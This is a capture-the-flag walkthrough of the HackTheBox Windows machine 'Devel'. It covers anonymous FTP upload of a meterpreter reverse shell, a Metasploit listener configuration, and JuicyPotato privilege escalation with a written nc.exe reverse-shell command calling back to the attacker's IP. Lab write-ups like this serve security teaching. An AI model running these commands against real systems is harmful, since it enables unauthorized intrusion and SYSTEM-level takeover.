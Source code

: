 ```yaml
---
title: CTFs | HackTheBox | Machines | Devel
author: BatBato
date: 2023-07-20
categories: [CTFs, HackTheBox, Machines]
tags: [CTF, HackTheBox, Machines, Windows, JuicyPotato]
permalink: /CTFs/HackTheBox/Machines/Devel
---
```


# Devel

![image](https://github.com/Nouman404/nouman404.github.io/assets/73934639/11724468-7358-4240-89c4-e3440a331be2)

## Enumeration

First of all, lets start a basic nmap scan:

![image](https://github.com/Nouman404/nouman404.github.io/assets/73934639/688b4660-81f5-4cd1-b045-bdbc6bbd9a72)

As we can see, we y have port `21` and port `80` opened. We also can notice that the port `21` (FTP) is accessible by the `anonymous` user. We can connect and list the files on the `FTP` server:

![image](https://github.com/Nouman404/nouman404.github.io/assets/73934639/5a0161f9-5d77-4edf-9e28-c21e983efbf1)

As we can see, there is what seems to be the tree structure of the web server. When we go on the port `80`, we can see the `welcome.png` in the center of the web page:

![image](https://github.com/Nouman404/nouman404.github.io/assets/73934639/d5a20752-0c9b-4d33-b1bf-a73b96447156)

## Initial Foothold
We can try to upload a web shell or a reverse shell using the `put` command on the `FTP` server. For that, I generated a meterpreter reverse shell using `msfvenom`:

![image](https://github.com/Nouman404/nouman404.github.io/assets/73934639/08d024b9-bf08-40cb-a210-1aea82cfdeda)

I then uploaded it. Run the following command in the `msfconsole` to get a listener on port `443`:

```shell
set payload windows/meterpreter/reverse_tcp

set lhost tun0


set lport 443

run
```

I then go to the url `http://10.10.10.5/config.aspx`, and I get a meterpreter session:

![image](https://github.com/Nouman404/nouman404.github.io/assets/73934639/24207c13-e341-4668-98bf-7ec897ea7bc5)

Now that we have a meterpreter session, we can execute basic commands to be able to understand who we are and what rights we do have:

![image](https://github.com/Nouman404/nouman404.github.io/assets/73934639/256b54a6-5614-4402-8bf5-788dd33445de)

## Privilege Escalation

As we can see, we have a lot of rights. The `SeImpersonatePrivilege` is vulnerable to the `JuicyPotato` vulnerability (that I explained [here](https://nouman404.github.io/Notes/Privilege_Escalation/Windows_PE#seimpersonate--seassignprimarytoken)). I then uploaded `nc.exe` and `JuicyPotato.exe`:

![image](https://github.com/Nouman404/nouman404.github.io/assets/73934639/82b963b1-59c2-4f4c-8e82-7c67b2237602)

But when I tried to run the `JuicyPotato` command, I got an error saying that it wasn't the correct format:

![image](https://github.com/Nouman404/nouman404.github.io/assets/73934639/770800a9-e6bd-4609-9666-7b4a95ea5b1e)

So I used [this](https://github.com/ivanitlearning/Juicy-Potato-x86/releases) version of `JuicyPotato` that I called `JP.exe`:

![image](https://github.com/Nouman404/nouman404.github.io/assets/73934639/8e87011a-a554-48ab-8b33-f44893f73596)

Now this should work, so I create a basic `nc` instance on the port `445` and run the following command:

```powershell
c:\Users\Public\Downloads\JP.exe -l 53375 -p c:\windows\system32\cmd.exe -a "/c c:\Users\Public\Downloads\nc.exe 10.10.14.56 445 -e cmd" -t * 
```

This default command didn't work, so I tried to execute the same command using the `-c` option to specify the `CLSID`. CLSID stands for "Class Identifier" and is a unique identifier used in the Windows operating system to identify COM (Component Object Model) objects and their associated components. I then referred to [this page](https://github.com/ohpe/juicy-potato/tree/master/CLSID/Windows_7_Enterprise) and tried every `CLSID` to get an `NT AUTORITY/SYSTEM` command prompt (the correct one is the second one `{03ca98d6-ff5d-49b8-abc6-03dd84127020}`):

![image](https://github.com/Nouman404/nouman404.github.io/assets/73934639/7aeae214-c7b9-4764-8f54-896fda23cb73)

> Note that we selected `Windows 7 Enterprise` from [this page](https://github.com/ohpe/juicy-potato/tree/master/CLSID) first to have a correct list of `CLSID`s.
{: .prompt-tip}

The command worked, and as we can see, we have a `cmd` as  `NT AUTORITY/SYSTEM`:

![image](https://github.com/Nouman404/nouman404.github.io/assets/73934639/ff4394d8-f164-4932-84e7-20f38e839294)

We can now get both flags, and voilà...

![image](https://github.com/Nouman404/nouman404.github.io/assets/73934639/f4026407-c70f-49bb-9177-dc0705de7a34)


